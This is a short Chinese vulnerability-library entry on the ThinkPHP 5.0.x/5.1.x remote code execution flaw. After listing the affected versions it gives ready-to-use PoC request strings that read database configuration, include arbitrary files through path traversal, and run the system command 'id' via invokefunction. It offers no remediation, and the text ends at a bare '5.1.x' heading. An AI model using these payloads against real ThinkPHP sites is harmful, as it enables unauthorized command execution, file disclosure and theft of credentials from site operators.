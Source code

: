 ```yaml
---
title: 'Thinkphp 5.0.(7-22)&5.1.(0-30)远程代码执行漏洞'
date: Wed, 14 Oct 2020 06:15:24 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.0.7<=ThinkPHP5<=5.0.22 5.1.0<=ThinkPHP<=5.1.30

### 漏洞POC

5.0.x```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id 
```5.1.x